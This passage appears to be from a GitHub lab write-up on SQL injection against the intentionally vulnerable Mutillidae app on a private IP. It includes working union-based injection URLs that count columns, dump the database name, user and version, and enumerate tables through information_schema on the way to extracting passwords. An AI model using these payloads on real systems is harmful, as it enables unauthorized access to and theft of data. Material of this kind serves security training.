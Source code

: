The browser url of this info page need to be modified with the url as below:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=subashini%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/89be207a-cd0c-46f0-b8e6-1cdb3f682154)

 After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/8c947fc8-f057-452e-a571-5db925a5179f)
 When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/8ab47a29-c7b9-4918-98ea-d68cbd4951ee)


As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/491312d1-e1dc-4ae5-8fdf-0fb1abb1c5c1)
 Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/d052812b-3784-45e0-b2d3-f55a188a470a)
 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=subashini%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

Screenshot 2023-06-10 225314 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=subashini%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/SubashiniSenniappan/sqlinjection/assets/119404951/178e4812-dd95-48e6-ab42-8394266b1434)


The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”
